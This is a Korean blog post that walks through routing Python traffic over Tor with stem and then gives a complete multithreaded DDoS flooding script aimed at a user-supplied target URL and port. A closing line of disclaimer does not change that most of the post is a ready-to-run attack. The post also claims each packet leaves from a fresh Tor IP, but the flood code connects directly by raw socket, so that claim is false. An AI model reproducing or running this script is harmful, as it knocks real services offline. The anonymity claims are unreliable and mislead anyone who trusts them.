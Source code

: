 ```yaml
---
layout: single
title:  "tor 활용해서 ip 숨기고 디도스 날리기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```

# IP를 숨기고 디도스 날려보자 
앞선 방법들로 내가 어떤 기기에서 날리는지 모르게 하더라도, IP가 들켜버리니 말장 도루묵이다.  
따라서, tor 라는 내 IP를 숨겨주는 브라우저를 활용해 디도슬르 날리는 것으로 내 IP를 숨길 수 있다.  
이는 토어 네트워크를 이용하여 파이썬 코드의 모든 요청을 라우팅하는 것으로 할 수 있다.   
이를 위해 `stem` 라이브러리를 사용하여 파이썬 코드에서 토어 네트워크를 제어하고, `requests` 라이브러리를 사용하여 HTTP 요청을 보낼 수 있다.  


1. **토어 설치**:
   - [https://www.torproject.org/download](https://www.torproject.org/download/)
   위에 저거 다운 받자

2. **Tor 서비스 시작**:
   - 토어 브라우저한번 실행해 보자. 속도가 다른 브라우져보다 느릴텐데, 이는 많은 우회 과정을 거치기 때문이다.  

3. **stem 및 requests 라이브러리 설치**:
   - 파이썬 코드에서 Tor를 제어하기 위해 `stem` 라이브러리와 HTTP 요청을 보내기 위해 `requests` 라이브러리를 설치하자.  
   ```bash
   pip install stem requests
   ```  

4. **Tor를 통한 HTTP 요청 설정**:
- 다음은 토어 네트워크를 통해 IP를 숨기고 HTTP 요청을 보내는 예제 코드이다:  
```python
import requests
from stem import Signal
from stem.control import Controller

# Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
def renew_tor_ip():
   with Controller.from_port(port=9051) as controller:
       controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
       controller.signal(Signal.NEWNYM)

# Tor를 사용하여 HTTP 요청을 보내는 함수
def get(url):
    session = requests.Session()
    session.proxies = {
        'http': 'socks5h://127.0.0.1:9050',
        'https': 'socks5h://127.0.0.1:9050'
    }
    response = session.get(url)
    return response

# Tor IP 갱신
renew_tor_ip()

# 예제 HTTP 요청
url = 'http://httpbin.org/ip'
response = get(url)
print(response.text)
```

### 설명
1. **Tor 서비스 시작**:
   - Tor 브라우저를 실행하거나, Tor 서비스만 실행합니다. 서비스만 실행하려면 `tor` 명령을 사용할 수 있습니다.
2. **`stem` 라이브러리를 사용하여 Tor 회로 갱신**:
   - `stem` 라이브러리를 사용하여 새로운 Tor 회로를 요청하고 IP를 갱신합니다.
   - Tor의 제어 포트에 연결하여 새로운 회로를 생성하도록 신호를 보냅니다.
3. **`requests` 라이브러리를 사용하여 HTTP 요청**:
   - `requests` 라이브러리의 프록시 설정을 통해 모든 HTTP 요청을 Tor 네트워크를 통해 라우팅합니다.
   - `socks5h://127.0.0.1:9050`는 로컬에서 실행 중인 Tor 프록시 서버의 주소입니다.

위 코드로 Tor 네트워크를 통해 HTTP 요청을 보내고 응답을 받을 수 있다.  
필요한 경우 `renew_tor_ip` 함수를 호출하여 IP를 갱신할 수 도 있다.  
Tor 제어 포트에 대한 접근 권한이 필요하며, 이를 위해 `torrc` 파일에서 `ControlPort`와 `HashedControlPassword` 설정을 확인해야 한다.  

추가적으로, Tor 설정 파일 (`torrc`)에서 제어 포트를 설정하고 비밀번호를 설정해야 한다:  
```
ControlPort 9051
HashedControlPassword your_hashed_password
```

이렇게 하면 파이썬 코드를 Tor 네트워크를 통해 실행하고 IP를 숨길 수 있다.  
위와 같은 방식을 디도스에 적용해 보자.  
```python
import re
import os
import sys
import time
import string
import signal
import http.client
import urllib.parse
import requests
from stem import Signal
from stem.control import Controller
from random import choice, randint
from socket import *
from threading import Thread
from argparse import ArgumentParser, RawTextHelpFormatter

version = '3.1'

# 사용자 입력 처리
def get_args():
    parser = ArgumentParser(formatter_class=RawTextHelpFormatter)
    parser.add_argument("-u", "--url", required=True, help="공격할 URL을 입력하십시오.")
    parser.add_argument("-p", "--port", default=80, type=int, help="공격할 포트 번호 (기본값: 80)")
    parser.add_argument("-t", "--threads", default=100, type=int, help="스레드 수 (기본값: 100)")
    parser.add_argument("-s", "--sleep", default=0, type=float, help="스레드 간 대기 시간 (초, 기본값: 0)")
    return parser.parse_args()

# Tor 컨트롤러를 통해 새로운 Tor 회로를 요청하는 함수
def renew_tor_ip():
    with Controller.from_port(port=9051) as controller:
        controller.authenticate(password='your_password')  # Tor 설정에서 설정한 비밀번호 사용
        controller.signal(Signal.NEWNYM)

# Tor를 사용하여 HTTP 요청을 보내는 함수
def get(url):
    session = requests.Session()
    session.proxies = {
        'http': 'socks5h://127.0.0.1:9050',
        'https': 'socks5h://127.0.0.1:9050'
    }
    response = session.get(url)
    return response

# 패킷 전송 방식 고도화 클래스
class AdvancedPyslow:
    def __init__(self, tgt, port, threads, sleep):
        self.tgt = tgt
        self.port = port
        self.threads = threads
        self.sleep = sleep
        self.method = ['GET', 'POST', 'HEAD', 'PUT', 'DELETE']  # 다양한 HTTP 메소드
        self.user_agents = self.load_user_agents()  # User-Agent 목록 불러오기

    def load_user_agents(self):
        try:
            with open("./ua.txt", "r") as fp:
                return re.findall(r"(.+)\n", fp.read())
        except FileNotFoundError:
            print('[-] \'ua.txt\' 파일을 찾을 수 없습니다.')
            return []

    # 패킷 생성 함수
    def create_packet(self):
        method = choice(self.method)
        path = '/' + str(randint(1, 999999999))
        user_agent = choice(self.user_agents)
        return f"{method} {path} HTTP/1.1\r\nHost: {self.tgt}\r\nUser-Agent: {user_agent}\r\n\r\n"

    # 패킷 전송 함수
    def send_packet(self):
        try:
            # Tor IP 갱신
            renew_tor_ip()
            # 새로운 Tor IP를 통해 요청 전송
            with socket(AF_INET, SOCK_STREAM) as sock:
                sock.connect((self.tgt, self.port))
                packet = self.create_packet()
                sock.sendall(packet.encode())
                print(f"[+] 패킷 전송: {packet.strip()}")
        except Exception as e:
            print(f"[-] 패킷 전송 실패: {e}")

    # 스레드 실행 함수
    def run(self):
        threads = []
        for _ in range(self.threads):
            t = Thread(target=self.send_packet)
            t.start()
            threads.append(t)
            time.sleep(self.sleep)  # 스레드 간 대기 시간

        for t in threads:
            t.join()

if __name__ == "__main__":
    signal.signal(signal.SIGINT, signal.SIG_DFL)  # Ctrl+C 시 기본 시그널 처리
    args = get_args()
    target_ip = gethostbyname(args.url)  # 도메인에서 IP 주소 얻기
    print(f"[+] 공격 대상: {args.url} ({target_ip})")
    
    # 패킷 전송 고도화 클래스 인스턴스 생성 및 실행
    attack = AdvancedPyslow(target_ip, args.port, args.threads, args.sleep)
    attack.run()

```

위와 같은 방법으로, 패킷을 보낼 때 마다 다른 IP에서 날리는 것으로 만들 수 있다.  
이건 개념 이해 목적이므로, 절대 악의성을 가지고 남을 공격하는데 사용하지 말자.  